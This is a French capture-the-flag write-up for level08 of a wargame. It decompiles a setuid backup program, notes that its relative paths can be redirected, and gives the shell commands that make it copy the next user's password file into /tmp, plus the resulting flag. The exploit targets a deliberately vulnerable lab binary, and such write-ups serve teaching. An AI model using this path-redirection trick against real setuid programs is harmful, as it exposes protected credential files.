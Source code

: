 # override: [level08]

Observations:
---

#### Détails du profil:
```md
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

#### Détails du programme:
```sh
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
```

#### Programme décompilé:
```c
//----- (00000000004008C4) ----------------------------------------------------
unsigned __int64 __fastcall log_wrapper(FILE *a1, const char *a2, const char *a3)
{
  char dest[264];
  unsigned __int64 v6;

  v6 = __readfsqword(0x28u);
  strcpy(dest, a2);
  snprintf(&dest[strlen(dest)], 254 - strlen(dest), a3);
  dest[strcspn(dest, "\n")] = 0;
  fprintf(a1, "LOG: %s\n", dest);
  return __readfsqword(0x28u) ^ v6;
}

//----- (00000000004009F0) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  FILE *v4;
  FILE *stream;
  int fd;
  char buf;
  char dest[104];
  unsigned __int64 v9;

  v9 = __readfsqword(0x28u);
  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  v4 = fopen("./backups/.log", "w");
  if ( !v4 )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(v4, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(v4, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

#### Entrée programme:

| Nom | Description |
| --- | ----------- |
| `argv[1]`			| Chaîne de caractères. |

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>`			| Cette fonction ouvre un fichier au chemin `"./backups/.log"` en mode écriture puis écrit dans ce dernier `"Starting back up: "` suivit du contenu de `argv[1]`. <br> Ensuite elle ouvre le fichier au chemin contenu dans `argv[1]` en mode lecture. <br> Après cela elle ouvre le fichier contenu à `"./backups/"` + `argv[1]` en mode ecriture, concatenation, et creation. <br> Ensuite chacun des caractères dans le fichier au chemin `argv[1]` sont copiés dans le fichier au chemin `"./backups/"` + `argv[1]`. |
| `<log_wrapper>`	| Écris un message concatenant deux chaînes de caractères dans un fichier. |


#### Conclusions:
Tous les chemins sont relatifs, en changeant le chemin d'exécution du programme nous pouvons changer le chemin de toutes les lectures et écriture de fichiers.

----
Résolution:
----
Nous créons un dossier au chemin `/tmp/backups/home/users/level09/`, puis un dossier vide libre de droit au chemin `/tmp/backups/.log`. \
Ensuite nous exécutons le fichier `/home/users/level08/level08` à la racine `/tmp` avec comme paramètre `/home/users/level09/.pass`. \
Vu que le fichier à `/tmp/backups//home/users/level09/.pass` n'existe pas, le  programme va le créer avec les droit d'utilisateur de l'exécutable. \
De ce fait il aura donc les droit d'écrire dedans, et il vas écrire le contenu du fichier au chemin `/home/users/level09/.pass`.
Il ne nous reste plus qu'a afficher le contenu du fichier `backups/home/users/level09/.pass`.

#### Commandes:
```bash
~$ cd /tmp
/tmp$ mkdir -p backups/home/users/level09/
/tmp$ echo > backups/.log
/tmp$ chmod 777 backups/.log
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
/tmp$ cat backups/home/users/level09/.pass
```

#### Flag: `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`

